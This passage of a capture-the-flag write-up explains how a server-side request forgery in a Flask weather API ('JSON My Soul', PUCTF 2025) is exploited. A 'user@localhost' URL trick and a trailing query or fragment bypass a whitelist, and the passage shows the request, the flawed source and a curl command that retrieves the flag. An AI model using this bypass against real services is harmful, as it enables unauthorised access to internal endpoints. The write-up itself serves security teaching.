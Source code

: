To get the flag, we could send the following GET request:

```http
GET /api/weather?url=http://api@localhost/flag HTTP/1.1
Host: chal.polyuctf.com:41342


```

By doing so, the GET route `/flag`'s `isClientAddressLocalhost` can be bypassed, because the `request.remote_addr` will be `127.0.0.1` (`localhost`).

However, the above payload shouldn't work, as the route will append `/api/weather` (`API_ENDPOINT`) to our path:

```python
API_ENDPOINT = '/api/weather'
[...]
@app.route(API_ENDPOINT, methods=['GET'])
def getWeatherInformation():
    url = request.args.get('url', WHITELIST_API_URL).lower().strip()
    [...]
    try:
        apiResponse = requests.get(f'{url}{API_ENDPOINT}', allow_redirects=False)
        apiJsonData = apiResponse.json()
    except:
        return jsonify({'message': 'Something went wrong with the API service. Sorry!'})
    [...]
```

In the above case, if we send payload `http://api@localhost/flag`, the final URL will be like this: `http://api@localhost/flag/api/weather`. Since this appended URL endpoint (`/flag/api/weather`) doesn't exist on the `frontend` service, it'll return HTTP status "404 Not Found".

To solve this issue, we can append a [URL query](https://datatracker.ietf.org/doc/html/rfc3986#section-3.4) to our payload:

```
http://api@localhost/flag?foo=
```

Or, you can use [URL fragment](https://datatracker.ietf.org/doc/html/rfc3986#section-3.5) (`#`) to let the request treat `/api/weather` as a fragment:

```
http://api@localhost/flag#
```

> Note: Make sure you URL encode your payload. Otherwise the `url` parameter's value might be treated as another parameter or URL fragment.

By doing so, we can bypass the flawed whitelist validation and the appended `API_ENDPOINT`.

## Exploitation

Armed with above information, we can send the following GET request to get the flag:

```shell
┌[siunam♥Mercury]-(~/ctf/PUCTF-2025/Web-Exploitation/JSON-My-Soul)-[2025.04.29|15:03:19(HKT)]
└> curl -s --get http://chal.polyuctf.com:41342/api/weather --data 'url=http://api@localhost/flag?foo=' | jq -r '.["message"]'
PUCTF25{WH173l1S7_4Pp0R4cH_C4N_4lS0_b3_BYP4223d_33671ad267a035702f9222a37d6776c2}
```
